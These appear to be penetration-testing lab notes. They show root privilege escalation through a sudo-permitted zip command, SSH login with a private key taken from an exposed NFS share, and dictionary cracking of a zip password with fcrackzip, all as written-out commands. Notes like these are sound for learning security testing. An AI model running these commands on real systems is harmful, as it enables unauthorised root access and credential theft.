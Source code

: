 

#### Privilege Escalation to Root with SUDO permissions for ZIP(Linux):

- After all the exploitations, we land in the shell of a user with least privilege and we are trying to escalate our privilege to root.
- So, the first thing to check is if the logged in user has any sudo privileges already, we can check this with `sudo -l`
	- This provides with the commands that can be used by the user without any password as  root.
		- `sudo -l`
			- Output: `user {username} may run the following commands on {machine-name}: (root) NOPASSWD: /usr/bin/zip`
- As the user is having the permission to run zip functionality without password and with root privileges, we are going to exploit this to get a root shell
- We can use the website 'https://gtfobins.github.io/' search for SUDO escalations with ZIP and below syntax is provided to escalate:
	- `TF=$(mktemp -u)`
	- `sudo zip $TF /etc/hosts -T -TT 'sh #'
	- `sudo rm $TF`
- Once the commands are ran one by one, with the second we will be provided with a shell with root privileges and the last command to exit out

#### Exploit NFS:

- NFS stands for Network File System, a file system standard that allows users to access files on a remote computer as if they were on their local computer.
- We can use the command 'showmount' to show the NFS mounting paths available for the ip-address
	- Syntax:
		- `showmount -e {target-ip-address}`
			- Output: `Export list for {ip-address}:`
				- `/srv/nfs {ip-address....}`
- Once we have the path, we can create a path/directory to mount the path, we found in showmount
	- `mkdir /mnt/dev`
	- `mount -t nfs {ip-address}:/srv/nfs /mnt/dev`
		- -t is type
- Once done, we can navigate to the path /mnt/dev and check if we have any thing in the file share.
- Once the zip file is unzipped, we observed that the zip file had `id_rsa`, which is a private key file that is part of an SSH key pair
- Using the id_rsa, we can try a SSH connection to the target-machine.
	- `ssh -i id_rsa {username}@{ip-address}`
	- The `-i` option in SSH is used to specify an identity file (private key) for authentication. When you connect to a remote server using SSH, the default key (usually located at `~/.ssh/id_rsa`) is used. If you have a different key you want to use for authentication, you can specify it with the `-i` option.

#### Cracking zip password:

- For example, we found a zip file in the NFS path and it is password protected, so to crack the password we will be using 'fcrackzip', we need to install it in the machine.
	- `apt install fcrackzip`
- Once installed, we can use the below syntax for finding the zip password
	- `fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip`
		- -v - verbosity, to show all the details
		- -u - unzip
		- -D - Dictionary attack using the wordlists provided
		- -p - Indicates the file to the unzipped
- Once completed, we will be provided with the password to unzip
	- `unzip save.zip`
